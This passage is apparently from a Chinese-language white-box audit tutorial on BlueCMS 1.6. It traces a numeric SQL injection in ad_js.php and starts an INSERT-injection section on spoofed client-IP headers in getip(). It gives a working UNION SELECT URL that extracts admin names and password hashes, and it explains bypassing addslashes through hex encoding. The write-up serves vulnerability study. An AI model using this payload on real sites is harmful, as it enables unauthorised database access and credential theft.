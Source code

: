 使用`addslashes`过滤

```
$ad = $db->getone("SELECT * FROM ".table('ad')." WHERE ad_id =".$ad_id);
```

可以看出上面的是个数字型注入，`getone`函数我们也追踪一下, 代码在`mysql.class.php`中

```
function getone($sql, $type=MYSQL_ASSOC){
   $query = $this->query($sql,$this->linkid);
   $row = mysql_fetch_array($query, $type);
   return $row;
}
```

是一个执行 sql 语句的函数，这里就确认存在数字型 sql 注入漏洞

漏洞复现：因为我们这里是白盒测试，所以直接提取一下管理的用户名和密码

`http://www.bluecms16.com/ad_js.php?ad_id=1 UNION SELECT 1,2,3,4,5,6,GROUP_CONCAT(admin_name,0x3a,pwd) FROM blue_admin`

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAHacHdYDIhJ5tvhWxOMJWy7oNWMv6ymXgenMZZxNIhRAUuhiakozdNibib8uWkyrialZYOIoqWHZkMXg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAHacHdYDIhJ5tvhWxOMJWyj6WdUeqclnAxByQAQqvqHGKhp5SrQctLXRZWSETend9tlWI5XaFe8w/640?wx_fmt=png)

> 38 行输出的时候注释掉了，因此我们需要查看源代码

还要注意一下`0x3a`->`:`, 因为上面使用了`addslashes`函数，该函数会将`单引号（'）`,`双引号（"）`, `反斜杠（\）`，`NULL`进行转义，而使用编码就很好的绕过了！

2. INSERT 型 SQL 注入
------------------

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAHacHdYDIhJ5tvhWxOMJWyqjs7Uh2BZZibKOGlntWw2A3WW1M82793qkc18z7XbbrrBYqqcD8rulg/640?wx_fmt=png)

```
// include/common.fun.php 文件108行
function getip()
{
if (getenv('HTTP_CLIENT_IP'))
{
$ip = getenv('HTTP_CLIENT_IP');
}
elseif (getenv('HTTP_X_FORWARDED_FOR'))
{
$ip = getenv('HTTP_X_FORWARDED_FOR');
}
elseif (getenv('HTTP_X_FORWARDED'))
{
$ip = getenv('HTTP_X_FORWARDED');
}
elseif (getenv('HTTP_FORWARDED_FOR'))
{
$ip = getenv('HTTP_FORWARDED_FOR');
}
elseif (getenv('HTTP_FORWARDED'))
{
$ip = getenv('HTTP_FORWARDED');
}
else
{
$ip = $_SERVER['REMOTE_ADDR'];
}
return $ip;
}
```

